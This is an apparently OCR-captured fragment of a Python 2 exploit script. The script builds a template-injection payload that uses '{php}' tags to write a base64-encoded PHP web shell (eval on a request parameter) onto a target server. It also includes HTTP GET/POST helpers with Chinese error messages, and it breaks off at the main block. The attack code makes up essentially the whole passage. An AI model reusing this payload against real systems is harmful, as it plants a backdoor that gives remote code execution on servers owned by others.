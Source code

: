 ```

        short = base64.b64encode("<php eval($_REQUEST[%s]);?>"%self.password)

        file = self.output

        payload = {

            "{php}1{/php}":"{php}file_put_contents('./%s.php',base64_decode('%s'));{/php}"%(file,short)

        }

        return base64.b64encode(json.dumps(payload))

    def request(self,url,method="get"):

        respone = None

        if(not self.session):

            self.session = requests.Session()

        if(method == "get"):

            try:

                respone = self.session.get(url=url,headers=self.headers)

            except requests.exceptions.ConnectTimeout:

                print "[-] 请求%s超时"%url

                return

            except requests.exceptions.ConnectionError:

                print "[-] 请求%s无效"%url

                return

            return respone

        elif(method == "post"):

            try:

                respone = self.session.post(url=url,data=self.requestsdata,headers=self.headers)

            except requests.exceptions.ConnectTimeout:

                print "[-] 请求%s超时"%url

                return

            except requests.exceptions.ConnectionError:

                print "[-] 请求%s无效"%url

                return

        return respone

if __name__ == "__main__":
```